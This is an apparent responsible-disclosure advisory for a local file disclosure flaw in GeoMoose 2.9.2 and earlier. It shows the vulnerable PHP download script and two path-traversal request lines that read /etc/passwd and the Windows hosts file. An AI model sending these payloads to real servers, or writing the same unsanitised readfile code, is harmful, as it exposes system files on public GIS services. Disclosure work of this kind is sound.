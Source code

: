 Title: GeoMoose <= 2.9.2 Local File Disclosure
Author: dsc
Date: 2017-03-7 11:12
Tags: advisory, exploits, responsible disclosure
Slug: geomoose-local-file-disclosure-2-9-2

## Advisory

GeoMOOSE is a PHP framework for displaying distributed cartographic data. Bundled with M4SW, GeoMoose can be found on 
GIS services ran by scientific institutions and local governments.

### Vulnerable code:

    :::php5
    <?php
    $tempDir = $CONFIGURATION['temp'];
    $id = $_REQUEST['id'];
    $ext = $_REQUEST['ext'];
    $as_download = $_REQUEST['download'];
    $mimetypes = array(
        'pdf' => 'application/pdf',
        'jpeg' => 'image/jpeg',
        'png' => 'image/png',
        'gif' => 'image/gif',
        'html' => 'text/html',
        'csv' => 'text/csv'
    );
    header('Content-type: '.$mimetypes[$ext]);
    if($as_download == 'true') {
        header('Content-Disposition: attachment; filename=download_'.getmypid().time().'.'.$ext);
    }
    readfile($tempDir.$id.'.'.$ext);
    ?>

### Exploit

This one is easy:
    
    :::bash
    # Exploit Title: GeoMoose <= 2.9.2 Local File Disclosure
    # Exploit Author: Sander 'dsc' Ferdinand
    # Date: 2017-03-4
    # Version: <= 2.9.2
    # Blog: https://ced.pwned.systems
    # Vendor Homepage: geomoose.org
    # Reported: 4-3-2017
    # Vendor response: http://osgeo-org.1560.x6.nabble.com/Geomoose-users-GeoMoose-Security-Issue-td5315873.html
    # Software Link: https://github.com/geomoose/geomoose
    # Tested on: Windows/Linux
    # CVE : none
    
    /php/download.php?id=foo/.&ext=/../../../../../../../etc/passwd
    /php/download.php?id=foo/.&ext=/../../../../../../../WINDOWS/system32/drivers/etc/hosts


### Some Notes

- input vector can be GET/POST parameters or through COOKIE.
- Header injection possible depending on the [PHP version](http://php.net/manual/en/function.header.php#refsect1-function.header-changelog).
- [exploit-db.com](https://www.exploit-db.com/exploits/41822/)

